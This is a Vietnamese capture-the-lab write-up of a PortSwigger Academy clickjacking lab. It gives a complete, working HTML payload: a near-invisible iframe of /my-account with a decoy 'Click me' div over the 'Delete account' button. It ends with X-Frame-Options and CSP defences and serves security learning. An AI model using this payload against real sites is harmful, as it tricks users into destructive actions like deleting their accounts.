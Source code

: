 # Write-ups: Basic clickjacking with CSRF token protection

### Tổng quan
Khai thác lỗ hổng clickjacking trong ứng dụng, nơi giao diện `/my-account` chứa nút "`Delete account`" được bảo vệ bởi CSRF token, nhưng không có biện pháp chống clickjacking như header `X-Frame-Options` hoặc `Content-Security-Policy` (CSP). Kẻ tấn công có thể chèn trang `/my-account` vào một `iframe` trong Exploit Server, sử dụng một div giả mạo ("Click me") đặt chồng lên nút "Delete account" để lừa người dùng nhấp vào, kích hoạt hành động xóa tài khoản. Payload được tối ưu vị trí để đảm bảo nhấp vào div sẽ kích hoạt nút mục tiêu, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng clickjacking bằng cách sử dụng iframe để nhúng trang `/my-account`, đặt div giả mạo lên nút "Delete account", lừa người dùng nhấp để xóa tài khoản của họ và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và truy cập `/my-account`:
- **Quan sát**:
    - Trang `/my-account` chứa nút "`Delete account`", được bảo vệ bởi CSRF token trong form POST.
    - Xác định vị trí nút "Delete account" trên giao diện
    ![delete](./images/5_csrf-delete.png)

- **Kiểm tra khả năng nhúng iframe**:
    - Tạo payload kiểm tra trong Exploit Server để xác minh khả năng nhúng trang /my-account vào iframe: 
    `<iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>`
    - Store và view exploit: Trang `/my-account` hiển thị trong iframe mà không bị chặn, xác nhận lỗ hổng clickjacking:
        ![iframe](./images/1_iframe.png)

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để lừa người dùng nhấp vào nút "Delete account":
    ```html
    <style>
        iframe {
            position: relative;
            width: 1000px;
            height: 700px;
            opacity: 0.00001;
            z-index: 2;
        }
        div {
            position: absolute;
            top: 515px;
            left: 60px;
            z-index: 1;
        }
    </style>
    <div>Click me</div>
    <iframe src="https://0a0f008c0364d63681d0f279006500f4.web-security-academy.net/my-account"></iframe>
    ```
    ![body](./images/2_body.png)
- **Ý tưởng payload**:
    - Iframe nhúng `/my-account` gần trong suốt, div "Click me" đặt chồng lên nút "Delete account" để lừa người dùng nhấp, kích hoạt hành động xóa tài khoản.

- Store và view exploit để kiểm tra:
    - Xác nhận div "Click me" chồng chính xác lên nút "Delete account", nhấp vào div kích hoạt hành động xóa.

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: khi nạn nhân (đã đăng nhập) truy cập trang Exploit Server, nhấp vào "Click me", yêu cầu POST xóa tài khoản được gửi kèm CSRF token từ phiên của họ, xóa tài khoản thành công và hoàn thành lab.
        ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng clickjacking bằng cách nhúng trang `/my-account` vào iframe, sử dụng div giả mạo để lừa người dùng nhấp vào nút "Delete account", tận dụng việc thiếu bảo vệ chống nhúng iframe.
- Nhận thức tầm quan trọng của việc triển khai header `X-Frame-Options: DENY` hoặc Con`tent-Security-Policy: frame-ancestors 'none'` để ngăn chặn nhúng iframe, bảo vệ ứng dụng khỏi các cuộc tấn công clickjacking.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác clickjacking trong môi trường có CSRF token nhưng thiếu bảo vệ chống nhúng iframe, nhấn mạnh tầm quan trọng của việc sử dụng `X-Frame-Options` hoặc CSP để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*